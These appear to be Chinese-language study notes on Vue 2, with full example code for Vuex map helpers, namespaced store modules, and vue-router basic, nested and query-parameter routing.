#### mapMutations优化

也是用来自动化生成methods方法的，因为是方法，所以在使用上和前面计算属性有所不同：


* 自动生成的method是有结构的，对比我们写的method，提供了一个传参

  

* 使用这个传参需要在绑定属性表达式中输入

  

代码：

```vue
<template>
  <div>
    <h1>当前求和为：{{sum}}</h1>
    <h1>当前求和放大10倍为：{{bigSum}}</h1>
    <h1>我在{{school}}，学习{{subject}}</h1>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
<!--    <button @click="JIA(n)">+</button>-->
<!--    <button @click="JIAN(n)">-</button>-->
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
import {mapState,mapGetters,mapMutations} from 'vuex'

export default {
  name:'CountInfo',
  data(){
    return{
      n:1
    }
  },
  computed:{
    //借助mapState生成计算属性，从State中读取数据。（对象写法）
    // ...mapState({sum:'sum',school:'school',subject:'subject'}),

    //借助mapState生成计算属性，从State中读取数据（数组写法）
    ...mapState(['sum','school','subject']),

    //借助mapGetters生成计算属性，从getters中读取数据（对象写法）
    //...mapGetters({bigSum:'bigSum'})

    //借助mapGetters生成计算属性，从getters中读取数据（数组写法）
    ...mapGetters(['bigSum'])
  },
  methods:{
    //程序员亲自写的方法
    /*increment(){//加
      this.$store.commit('JIA',this.n);
    },
    decrement(){//减
      this.$store.commit('JIAN',this.n);
    },*/
    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（对象写法）
    ...mapMutations({increment:'JIA',decrement:'JIAN'}),

    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（数组写法）
    // ...mapMutations(['JIA','JIAN']),

    incrementOdd(){//只给奇数加
      this.$store.dispatch('jiaOdd',this.n);
    },
    incrementWait(){//延迟加
      this.$store.dispatch('jiaWait',this.n);
    }
  },
  mounted() {
    console.log(this)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```


#### mapActions优化

和前面一样，引入mapActions模块之后，就可以创建那些重复编写调用acrions的dispatch方法

同时因为是自动生成的方法，所以传参需要在模板表达式中传入。

代码：

```vue
<template>
  <div>
    <h1>当前求和为：{{sum}}</h1>
    <h1>当前求和放大10倍为：{{bigSum}}</h1>
    <h1>我在{{school}}，学习{{subject}}</h1>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
<!--    <button @click="JIA(n)">+</button>-->
<!--    <button @click="JIAN(n)">-</button>-->
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
<!--    <button @click="jiaOdd(n)">当前求和为奇数再加</button>-->
<!--    <button @click="jiaWait(n)">等一等再加</button>-->
  </div>
</template>

<script>
import {mapState,mapGetters,mapMutations,mapActions} from 'vuex'

export default {
  name:'CountInfo',
  data(){
    return{
      n:1
    }
  },
  computed:{
    //借助mapState生成计算属性，从State中读取数据。（对象写法）
    // ...mapState({sum:'sum',school:'school',subject:'subject'}),

    //借助mapState生成计算属性，从State中读取数据（数组写法）
    ...mapState(['sum','school','subject']),

    //借助mapGetters生成计算属性，从getters中读取数据（对象写法）
    //...mapGetters({bigSum:'bigSum'})

    //借助mapGetters生成计算属性，从getters中读取数据（数组写法）
    ...mapGetters(['bigSum'])
  },
  methods:{
    //程序员亲自写的方法
    /*increment(){//加
      this.$store.commit('JIA',this.n);
    },
    decrement(){//减
      this.$store.commit('JIAN',this.n);
    },*/
    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（对象写法）
    ...mapMutations({increment:'JIA',decrement:'JIAN'}),

    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（数组写法）
    // ...mapMutations(['JIA','JIAN']),

    /*incrementOdd(){//只给奇数加
      this.$store.dispatch('jiaOdd',this.n);
    },
    incrementWait(){//延迟加
      this.$store.dispatch('jiaWait',this.n);
    }*/
    //借助mapActions生成对应方法，方法中会调用dispatch去联系actions（对象写法）
    ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
    
    //借助mapActions生成对应方法，方法中会调用dispatch去联系actions（数组写法）
    // ...mapActions(['jiaOdd','jiaWait'])
  },
  mounted() {
    console.log(this)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```


### 案例：求和实现多组件共享

通过在vuex中管理多个数据，使用多个组件来读取展示。


展示效果：


代码：

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入vue-resource
import vueResource from "vue-resource";
//引入vuex
import Vuex from "vuex";
//引入store
import store from "@/store";//默认拿index

//关闭vue的生产提示
Vue.config.productionTip=false
//使用插件
Vue.use(vueResource);

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),//全局的实例都有插件中的data追加值
    store:store,
    beforeCreate() {
        Vue.prototype.$bus = this;//安装全局事件总线
    }
})
```

store/index.js

```js
//该文件用于创建Vuex中最为核心的store
//引入vue
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//使用vuex
Vue.use(Vuex);

//准备actions_用于响应组件中的动作
const actions = {
    'jiaOdd':function (context,value){
        console.log('[actions]:jiaOdd,minStore=',context)
        console.log('[actions]:jiaOdd,value=',value)
        if (context.state.sum %2){//判断逻辑在actions
            context.commit('JIA',value)
        }
    },
    'jiaWait':function (context,value){
        console.log('[actions]:jiaWait,minStore=',context)
        console.log('[actions]:jiaWait,value=',value)
        setTimeout(()=>{
            context.commit('JIA',value);
        },500)
    },
}
//准备mutations_用于操作数据（state）
const mutations = {
    JIA(state,value){//在这里不要写任逻辑判断和业务请求
        console.log('[mutations]:JIA,state=',state)
        console.log('[mutations]:JIA,value=',value)
        //执行具体操作
        state.sum += value;
    },
    JIAN(state,value){
        console.log('[mutations]:JIAN,state=',state)
        console.log('[mutations]:JIAN,value=',value)
        //执行具体操作
        state.sum -= value;
    },
    ADD_PERSON(state,value){
        console.log('[mutations]:ADD_PERSON,value=',value)
        state.personList.unshift(value);
    }
}
//准备mutations_用于存储数据
const state = {
    sum:0,
    school:'白云大学',
    subject:'Java开发',
    personList:[
        {id:'001',name:'张三'},
        {id:'002',name:'张四'},
        {id:'003',name:'张五'},
    ]
}
//准备getters_用于将state中的数据进行加工
const getters = {
    // 'bigSum':function (state) {//传统写法，key：value，value对应一个函数的返回值
    //     return state.sum * 10;
    // }
    bigSum(state){//es6优化写法
        return state.sum * 10;
    }
}

//创建并保留Store
export default new Vuex.Store({
    actions:actions,
    mutations:mutations,
    state:state,
    getters:getters
});
```

App.vue

```vue
<template>
  <div>
    <Count/>
    <hr>
    <Person/>
  </div>
</template>

<script>
import Count from './components/Count'
import Person from "@/components/Person";

export default {
  name: 'CountInfo',
  components:{Count,Person}
}
</script>

<style>
h3{
  color: red;
}
</style>
```

Count.vue

```vue
<template>
  <div>
    <h2>Count组件</h2>
    <h2>当前求和为：{{sum}}</h2>
    <h2>当前求和放大10倍为：{{bigSum}}</h2>
    <h2>我在{{school}}，学习{{subject}}</h2>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
<!--    <button @click="JIA(n)">+</button>-->
<!--    <button @click="JIAN(n)">-</button>-->
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
<!--    <button @click="jiaOdd(n)">当前求和为奇数再加</button>-->
<!--    <button @click="jiaWait(n)">等一等再加</button>-->

    <h3>Person组件的总人数：{{personList.length}}</h3>
  </div>
</template>

<script>
import {mapState,mapGetters,mapMutations,mapActions} from 'vuex'

export default {
  name:'CountInfo',
  data(){
    return{
      n:1
    }
  },
  computed:{
    //借助mapState生成计算属性，从State中读取数据（数组写法）
    ...mapState(['sum','school','subject','personList']),
    //借助mapGetters生成计算属性，从getters中读取数据（数组写法）
    ...mapGetters(['bigSum'])
  },
  methods:{
    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（对象写法）
    ...mapMutations({increment:'JIA',decrement:'JIAN'}),
    //借助mapActions生成对应方法，方法中会调用dispatch去联系actions（对象写法）
    ...mapActions({incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
  },
  mounted() {
    console.log(this)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```

Person.vue

```vue
<template>
  <div>
    <h1>Person组件</h1>
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="name">
    <button @click="addPerson">添加</button>
    <ul>
      <li v-for="person of personList" :key="person.id">{{person.name}}</li>
    </ul>
    <h3>Count组件的求和：{{sum}}</h3>
  </div>
</template>

<script>
import {nanoid} from 'nanoid'
  export default {
    name:'PersonInfo',
    data(){
      return{
        name:''
      }
    },
    computed:{
      personList(){
        return this.$store.state.personList;
      },
      sum(){
        return this.$store.state.sum;
      }
    },
    methods:{
      addPerson(){
        const person = {id:nanoid(),name:this.name}
        console.log('person=',person)
        this.$store.commit('ADD_PERSON',person)
        this.name=null;
      }
    }
  }
</script>

<style>

</style>
```

### vuex模块化编码

模块化编码目的是未来解决传统vuex的store单配置，后期出现大量属性混和在一个配置对象里的情况。


把配置安装不同业务拆开

原版：store/index.js

```js
//该文件用于创建Vuex中最为核心的store
//引入vue
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//使用vuex
Vue.use(Vuex);

//准备actions_用于响应组件中的动作
const actions = {
    'jiaOdd':function (context,value){
        console.log('[actions]:jiaOdd,minStore=',context)
        console.log('[actions]:jiaOdd,value=',value)
        if (context.state.sum %2){//判断逻辑在actions
            context.commit('JIA',value)
        }
    },
    'jiaWait':function (context,value){
        console.log('[actions]:jiaWait,minStore=',context)
        console.log('[actions]:jiaWait,value=',value)
        setTimeout(()=>{
            context.commit('JIA',value);
        },500)
    },
}
//准备mutations_用于操作数据（state）
const mutations = {
    JIA(state,value){//在这里不要写任逻辑判断和业务请求
        console.log('[mutations]:JIA,state=',state)
        console.log('[mutations]:JIA,value=',value)
        //执行具体操作
        state.sum += value;
    },
    JIAN(state,value){
        console.log('[mutations]:JIAN,state=',state)
        console.log('[mutations]:JIAN,value=',value)
        //执行具体操作
        state.sum -= value;
    },
    ADD_PERSON(state,value){
        console.log('[mutations]:ADD_PERSON,value=',value)
        state.personList.unshift(value);
    }
}
//准备mutations_用于存储数据
const state = {
    sum:0,
    school:'白云大学',
    subject:'Java开发',
    personList:[
        {id:'001',name:'张三'},
        {id:'002',name:'张四'},
        {id:'003',name:'张五'},
    ]
}
//准备getters_用于将state中的数据进行加工
const getters = {
    // 'bigSum':function (state) {//传统写法，key：value，value对应一个函数的返回值
    //     return state.sum * 10;
    // }
    bigSum(state){//es6优化写法
        return state.sum * 10;
    }
}

//创建并暴露Store
export default new Vuex.Store({
    actions:actions,
    mutations:mutations,
    state:state,
    getters:getters
});
```

根据业务模块划分后


> 使用mapXXX这种模块生成的代码，使用时可以指定命名空间

* state的使用需要新增一个模块前缀

  

* 如果不想使用模块前缀，则还需要在模块配置中开启命名空间，这样在自动生成时就会以命名空间获取内容

  原先：

  

  

  使用命名空间之后

  

  

  


getters、actions、mutations在使用上也是如此


> 使用原生调用$store的方法
>

根据前面讲的，进行模块划分后，store下面就只有对应模块


所以访问state是：$store.moduleName

commit到mutations是$store.commit('moduleName/method',xxx)


state使用点连接前缀，actions、getters、mutations都是使用字符串moduleName/xxx来使用


（这里getters使用数组是获取对象中元素的一种方式，因为使用点语法是不能存在字符串斜杠的。）

#### 总结


项目结构：

.png)

代码结构：


介绍：

main.js是入口，和之前的代码一样：

* 引入vue框架 &#x2705;
* 引入组件App.vue&#x2705;
* 引入Ajax请求库vue-resource
* 加载store配置&#x2705;
* 配置全局事件总线

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入vue-resource
import vueResource from "vue-resource";
//引入vuex
import Vuex from "vuex";
//引入store
import store from "@/store";//默认拿index

//关闭vue的生产提示
Vue.config.productionTip=false
//使用插件
Vue.use(vueResource);

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),//全局的实例都有插件中的data追加值
    store:store,
    beforeCreate() {
        Vue.prototype.$bus = this;//安装全局事件总线
    }
})
```

store/index.js是加载vuex的配置

* 引入Vue和Vuex
* 引入自定义配置count.js和person.js
* 指定Vue使用插件Vuex
* 实例化Store实例，加载配置

```js
//该文件用于创建Vuex中最为核心的store
//引入vue
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
/*业务模块划分*/
//引入count配置
import countOptions from "@/store/count";
//引入person配置
import personOptions from "@/store/person";
//使用vuex
Vue.use(Vuex);

//创建并暴露Store
export default new Vuex.Store({
    modules:{
        countAbout:countOptions,
        personAbout:personOptions
    }
});
```

通常业务复杂情况下，配置全写在index.js中是不合理的，开发维护难，所以利用es的模块化语法来将其拆解。

count.js是一个用作展示求和的模块，属于store配置

* namespaced命名空间开启，方便外部调用store模块
* actions：提供了奇数时才能加的业务逻辑、提供了延迟0.5秒加的业务逻辑
* mutations：提供了数据State中的sum属性的加法操作、减法操作
* state：保管全局数据sum、school、subject
* getters：提供了全局数据sum的一个计算结果bigSum

```js
//求和配置模块
const countOptions = {
    namespaced:true,//开启命名空间
    actions:{//业务逻辑
        'jiaOdd':function (context,value){
            console.log('[actions]:jiaOdd,minStore=',context)
            console.log('[actions]:jiaOdd,value=',value)
            if (context.state.sum %2){//判断逻辑在actions
                context.commit('JIA',value)
            }
        },
        'jiaWait':function (context,value){
            console.log('[actions]:jiaWait,minStore=',context)
            console.log('[actions]:jiaWait,value=',value)
            setTimeout(()=>{
                context.commit('JIA',value);
            },500)
        }
    },
    mutations:{//数据访问
        JIA(state,value){//在这里不要写任逻辑判断和业务请求
            console.log('[mutations]:JIA,state=',state)
            console.log('[mutations]:JIA,value=',value)
            //执行具体操作
            state.sum += value;
        },
        JIAN(state,value){
            console.log('[mutations]:JIAN,state=',state)
            console.log('[mutations]:JIAN,value=',value)
            //执行具体操作
            state.sum -= value;
        }
    },
    state:{//数据
        sum:0,
        school:'白云大学',
        subject:'Java开发'
    },
    getters:{//计算属性
        bigSum(state){//es6优化写法
            return state.sum * 10;
        }
    }
}
export default countOptions;
```

person.js是一个用作展示求和的模块，属于store配置

* namespaced命名空间开启，方便外部调用store模块
* actions：提供了只能添加姓陈的人员的业务逻辑、提供了远程请求获取名称业务逻辑
* mutations：提供了数据State中的personList属性的添加操作
* state：保管全局数据personList
* getters：提供了全局数据personList的第一个用户对象名称firstPersonName

```js
import axios from "axios";
import {nanoid} from "nanoid";

//人员配置模块
const personOptions = {
    namespaced: true,
    actions:{//业务逻辑
        //只能添加姓陈的
        addPersonChen(context,value){
            if (value.name.indexOf('陈')===0){
                context.commit('ADD_PERSON',value);
            }else {
                alert("请输入姓陈的人员")
            }
        },
        //远程调用，这里不依靠组件传递的参数
        addPersonServer(context){
            axios.get('https://api.uixsj.cn/hitokoto/get?type=social').then(
                response =>{
                    context.commit('ADD_PERSON',{id:nanoid(),name:response.data});
                },
                error =>{
                    alert("新增网络名称失败！",error.message);
                }
            )
        }
    },
    mutations:{//数据访问
        ADD_PERSON(state,value){
            console.log('[mutations]:ADD_PERSON,value=',value)
            state.personList.unshift(value);
        }
    },
    state:{//数据
        personList:[
            {id:'001',name:'张三'},
            {id:'002',name:'张四'},
            {id:'003',name:'张五'},
        ]
    },
    getters:{//计算属性
        firstPersonName(state){
            return state.personList[0].name;
        }
    }
}
export default personOptions;
```

App.vue

* 组件的管理者，负责引入组件
* 负责定义全局属性

```vue
<template>
  <div>
    <Count/>
    <hr>
    <Person/>
  </div>
</template>

<script>
import Count from './components/Count'
import Person from "@/components/Person";

export default {
  name: 'CountInfo',
  components:{Count,Person}
}
</script>

<style>
h3{
  color: red;
}
</style>
```

Count.vue

* 访问全局数据State下的模块countAbout和personAbout
* 使用vuex提供的mapXXX模块，来自动生成计算属性，methods

```vue
<template>
  <div>
    <h2>Count组件</h2>
    <h2>当前求和为：{{sum}}</h2>
    <h2>当前求和放大10倍为：{{bigSum}}</h2>
    <h2>我在{{school}}，学习{{subject}}</h2>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment(n)">+</button>
    <button @click="decrement(n)">-</button>
    <button @click="incrementOdd(n)">当前求和为奇数再加</button>
    <button @click="incrementWait(n)">等一等再加</button>
    <h3>Person组件的总人数：{{personList.length}}</h3>
  </div>
</template>

<script>
import {mapState,mapGetters,mapMutations,mapActions} from 'vuex'

export default {
  name:'CountInfo',
  computed:{
    //借助mapState生成计算属性，从State中读取数据（数组写法）。指定命名空间获取数据
    ...mapState('countAbout',['sum','school','subject']),
    ...mapState('personAbout',['personList']),
    //借助mapGetters生成计算属性，从getters中读取数据（数组写法）
    ...mapGetters('countAbout',['bigSum'])
  },
  data(){
    return{
      n:1
    }
  },
  methods:{
    //借助mapMutations生成对应方法，方法中会调用commit去联系mutations（对象写法）。指定命名空间获取数据
    ...mapMutations('countAbout',{increment:'JIA',decrement:'JIAN'}),
    //借助mapActions生成对应方法，方法中会调用dispatch去联系actions（对象写法）
    ...mapActions('countAbout',{incrementOdd:'jiaOdd',incrementWait:'jiaWait'})
  },
  mounted() {
    console.log(this.$store)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```

Person.vue

* 访问全局数据State下的模块countAbout和personAbout
* 手写计算属性和methods，再去里面调用actions和mutations

```vue
<template>
  <div>
    <h1>Person组件</h1>
    <h2>人员列表</h2>
    <h3>列表中第一个人的名字：{{firstPersonName}}</h3>
    <input type="text" placeholder="请输入名字" v-model="name">
    <button @click="addPerson">添加</button>
    <button @click="addPersonChen">只添加姓陈的</button>
    <button @click="addNetName">添加网名</button>
    <ul>
      <li v-for="person of personList" :key="person.id">{{person.name}}</li>
    </ul>
    <h3>Count组件的求和：{{sum}}</h3>
  </div>
</template>

<script>
import {nanoid} from 'nanoid'
  export default {
    name:'PersonInfo',
    data(){
      return{
        name:''
      }
    },
    computed:{
      personList(){//state
        return this.$store.state.personAbout.personList;
      },
      sum(){//state
        return this.$store.state.countAbout.sum;
      },
      firstPersonName(){//getters
        return this.$store.getters["personAbout/firstPersonName"];
      }
    },
    methods:{
      addPerson(){//mutations
        const person = {id:nanoid(),name:this.name}
        console.log('person=',person)
        this.$store.commit('personAbout/ADD_PERSON',person)
        this.name=null;
      },
      addPersonChen(){//actions
        const person = {id:nanoid(),name:this.name}
        console.log('person=',person)
        this.$store.dispatch('personAbout/addPersonChen',person)
        this.name=null;
      },
      addNetName(){
        this.$store.dispatch('personAbout/addPersonServer');
      }
    }
  }
</script>

<style>

</style>
```

展示效果：


## 前端路由vue-router

### 概念

路由是一种对应关系。多个路由（route）是在一个路由器（router）来管理


1. 路由就是一组key-value的对应关系
2. 多个路由，需要经过路由器的管理

传统编写单页面网页：一个主页，提供多个入口访问其他页面。


单页面的特定是不会有太多的页面跳转，而是实现页面切换（局部更新）。


像是这种单页面，做局部更新的功能。在一开始点击导航选项卡后，就会请求一个地址，而这一个地址会被vue-router来拦截处理


vue路由器就是做这一个工作，管理多个路由


vue-router是vue的一个插件库，专门用来实现SPA应用。


### SPA应用

1. 单页Web应用（Single Page Web Application，SPA）
2. 整个应用只有一个完整页面
3. 点击页面中的导航链接不会刷新页面，只会做页面的局部更新
4. 数据需要通过ajax请求获取


### 基本路由

#### 案例：SPA导航

左侧导航点击后，右侧局部更新内容


安装Vue-Router

```shell
npm i vue-router
```

在2022年2月7日中，vue3已经成为了默认版本。这里不能直接这样安装：会报错

* vue2中，要用vue-router的3版本
* vue3中，要用vue-router的4版本

这里使用的是vue2，所以使用vue-router3版本

```shell
npm i vue-router@3
```


使用插件

```js
//引入vue-router
import vueRouter from 'vue-router'
//应用插件
Vue.use(vueRouter)
```

创建路由器

* 新建router文件夹

* 新建index.js

* 创建路由器实例router

  ```js
  //该文件专门用于创建整个应用的路由器
  import VueRouter from 'vue-router'
  import About from "@/components/About";
  import Home from "@/components/Home";
  //创建一个路由器
  const router = new VueRouter({
      routes:[
          {path:'/about',component:About},
          {path:'/home',component:Home},
      ]
  })
  //暴露一个路由器
  export default router;
  ```

配置路由器

* 在Vue实例中配置路由器router

  ```js
  //引入Vue
  import Vue from 'vue'
  //引入App
  import App from './App'
  //引入vue-router
  import VueRouter from 'vue-router'
  import router from "@/router";
  
  //关闭vue的生产提示
  Vue.config.productionTip=false
  //应用插件
  Vue.use(VueRouter)
  
  //创建Vue实例
  new Vue({
      el:'#app',
      render: h => h(App),
      router:router
  })
  ```

使用路由器

* 使用vue-router提供的特殊标签来提供路由效果

  * `<router-link></router-link>`提供路由指引，在最终编译后变为a标签
  * `<router-view></router-view>`提供路由的组件页面展示

  App.vue

  ```vue
  <template>
    <div>
      <div class="row">
        <div class="col-xs-offset-2 col-xs-8">
          <div class="page-header"><h2>Vue  Router Demo</h2></div>
        </div>
      </div>
      <div class="row">
        <div class="col-xs-2 col-xs-offset-2">
          <div class="list-group">
            <!--元素HTML中使用a标签实现页面跳转-->
            <!--<a class="list-group-item active" href="./about.html">About</a>-->
            <!--<a class="list-group-item" href="./home.html">Home</a>-->
  
            <!--Vue中借助router-link标签实现路由的切换-->
            <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
            <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
          </div>
        </div>
        <div class="col-xs-6">
          <div class="panel">
            <div class="panel-body">
              <!--指定组件的位置-->
              <router-view></router-view>
            </div>
          </div>
        </div>
      </div>
    </div>
  </template>
  
  <script>
  
  export default {
    name: 'AppInfo'
  }
  </script>
  
  <style>
  </style>
  ```

  About.vue

  ```vue
  <template>
    <h2>我是About内容</h2>
  </template>
  
  <script>
    export default {
      name:'AboutInfo'
    }
  </script>
  
  <style>
  
  </style>
  ```

  Home.vue

  ```vue
  <template>
    <h2>我是Home内容</h2>
  </template>
  
  <script>
    export default {
      name:'HomeInfo'
    }
  </script>
  
  <style>
  
  </style>
  ```

* 展示效果

  

  

  #### 注意点

  路由器的作用：

  * 前端点击路由链接
  * 修改了当前路径
  * 前端路由器监测到改变
  * 对访问路径进行路由规则匹配
  * 找到路径对应的组件
  * 讲组件渲染处理放到指定标签

  上面的组件在使用时是通过路由器操作，不是自己引入，则称这种组件为路由组件。而我们前面常常使用引入，再通过标签方式注册的组件称为一般组件。

  * 一般组件通常都存储在components文件夹中
  * 路由组件通常都存储在pages文件夹中

  

  不用的路由组件，会被销毁。比如前面那一个切换About和Home，当展示其中一个时，另外一个就会被销毁。需要组件时才去挂载。

  

路由组件在实例化后，会携带两个新属性，用于路由器功能。


* $route是当前组件的路由规则

  

* $router是全局路由器的引用（唯一）

  


### 嵌套路由（多级路由）

顾名思义，是为了实现多级导航这种效果


但在开发中，很少能把路由做到6层

#### 案例：SPA多级导航

在前面的基础上进行改进：从图片中看出，

* 1级导航Home选修卡下面有2级导航和3级导航，所以将代码写在Home组件内。
* 因为Home组件级导航有News和Message，还需要创建这两个组件
* 3级导航因为没有具体页面，所以不用写
* 在路由器中配置2级导航News和Message的路由规则（2级路由）
* 在Home中编写2级导航路由链接标签（路径是多级路由格式）
* 在Home中编写2级导航路由视图标签

代码：

main.js 负责引入和使用插件vue-router

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入vue-router
import VueRouter from 'vue-router'
import router from "@/router";

//关闭vue的生产提示
Vue.config.productionTip=false
//应用插件
Vue.use(VueRouter)

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),
    router:router
})
```

router/index.js 负责实例化路由器配置项，是一个对象VueRouter。这里可以编辑多级路由，注意2级路由配置不用加斜杠。

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            path:'/about',
            component:About
        },
        {
            path:'/home',
            component:Home,
            children:[
                {
                    path:'news',//二级路由不用加斜杠
                    component:News
                },
                {
                    path:'message',
                    component:Message
                }
            ]
        }
    ]
})
//暴露一个路由器
export default router;
```

App.vue 负责组件管理和1级路由

```vue
<template>
  <div>
    <div class="row">
      <Banner/>
    </div>
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <div class="page-header"><h2>Vue  Router Demo</h2></div>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!--元素HTML中使用a标签实现页面跳转-->
          <!--<a class="list-group-item active" href="./about.html">About</a>-->
          <!--<a class="list-group-item" href="./home.html">Home</a>-->

          <!--Vue中借助router-link标签实现路由的切换-->
          <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
          <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!--指定组件的位置-->
            <router-view></router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Banner from "@/components/Banner";

export default {
  name: 'App',
  components:{Banner}
}
</script>

<style>
</style>
```

pages/About.vue 1级路由展示组件页面

```vue
<template>
  <h2>我是About内容</h2>
</template>

<script>
  export default {
    name:'About',
    mounted() {
      console.log('[About]:mounted...组件挂载完毕！')
      console.log('[About]:vc=',this)
    },
    beforeDestroy() {
      console.log('[About]:beforeDestroy...组件将被销毁！')
    }
  }
</script>

<style>

</style>
```

pages/Home.vue 1级路由展示组件页面，同时在这里编写2级路由功能（跳转要写完整路径）

```vue
<template>
  <div>
    <h2>我是Home内容</h2>
    <div>
      <ul class="nav nav-tabs">
        <li>
          <router-link class="list-group-item" active-class="active" to="/home/news">News</router-link>
        </li>
        <li>
          <router-link class="list-group-item" active-class="active" to="/home/message">Message</router-link>
        </li>
      </ul>
      <router-view></router-view>
    </div>
  </div>
</template>

<script>
  export default {
    name:'Home',
    mounted() {
      console.log('[Home]:mounted...组件挂载完毕！')
      console.log('[Home]:vc=',this)
    },
    beforeDestroy() {
      console.log('[Home]:beforeDestroy...组件将被销毁！')
    }
  }
</script>

<style>

</style>
```

pages/News.vue 2级路由展示组件页面

```vue
<template>
  <ul>
    <li>news001</li>
    <li>news002</li>
    <li>news003</li>
  </ul>
</template>

<script>
export default {
  name:'News'
}
</script>
```

pages/Message.vue 2级路由展示组件页面

```vue
<template>
  <div>
    <ul>
      <li>
        <a href="xxx">message01</a>&nbsp;&nbsp;
      </li>
      <li>
        <a href="xxx">message02</a>&nbsp;&nbsp;
      </li>
      <li>
        <a href="xxx">message03</a>&nbsp;&nbsp;
      </li>
    </ul>
  </div>
</template>

<script>
export default {
  name:'Message'
}
</script>
```

components/Banner.vue 一般组件，在App组件中引入并展示

```vue
<template>

</template>

<script>
export default {
  name:'Banner'
}
</script>

<style>

</style>
```

展示效果：


### 路由传参

实现效果：给Home/Message下面设计3级路由，路由展示页面Details组件，并且根据不同选项展示对应选项的数据。


在前面的2级导航Message下面，做3级导航效果，点击展示一个数据。但这里有一个限定。就是假设有100个列表数据，那是不能建100个路由规则的，而是在点击之后，传递参数，最终展示就只有一个组件Details.vue


* 给2级路由展示Message组件的列表使用动态数据

* 给Message做3级导航功能，展示组件Details

* 编写3级导航的路由规则

* 编写3级导航的路由链接和路由视图

* 实现3级导航给路由组件Details传递消息（注意这里不是父子组件，所以前面常用的props、自定义事件、插槽都不能使用）

  * 在3级导航跳转链接那里做请求参数携带to="/home/message/details?id=123&title=zhuzhe"（用v-bind使其识别为js表达式，再用模板字符串拼接输出）

    ```html
    <!--跳转路由并携带query参数，to的字符串写法-->
    <router-link :to="`/home/message/details?id=${item.id}&title=${item.title}`">{{item.title}}</router-link>&nbsp;&nbsp;
    ```

  * 在展示页面Details组件中，通过$route属性来接收请求内容{{$route.query.id}} {{$route.query.title}}

  * 优化将3级导航中的to写法优化（如果传参多就算用模板字符串也很麻烦）

    ```html
    <!--跳转路由并携带query参数，to的对象写法-->
            <router-link :to="{
              path:'/home/message/details',
              query:{
                id:item.id,
                title:item.title
              }
            }">
              {{item.title}}
            </router-link>&nbsp;&nbsp;
    ```

代码：

main.js，App.vue，About.vue，Home.vue，Banner.vue，News.vue没变，参考前面。

路由配置：router/index.js 配置3级路由，这里只路由到一个组件就行，因为这个组件根据不同传参来展示不同效果。

```js
//该文件专门用于创建整个应用的路由器
import VueRouter from 'vue-router'
import About from "@/pages/About";
import Home from "@/pages/Home";
import News from "@/pages/News";
import Message from "@/pages/Message";
import Details from "@/pages/Details";
//创建一个路由器
const router = new VueRouter({
    routes:[
        {
            path:'/about',
            component:About
        },
        {
            path:'/home',
            component:Home,
            children:[
                {
                    path:'news',//二级路由不用加斜杠
                    component:News
                },
                {
                    path:'message',
                    component:Message,
                    children:[
                        {
                            path:'details',
                            component:Details
                        }
                    ]
                }
            ]
        }
    ]
})
//暴露一个路由器
export default router;
```

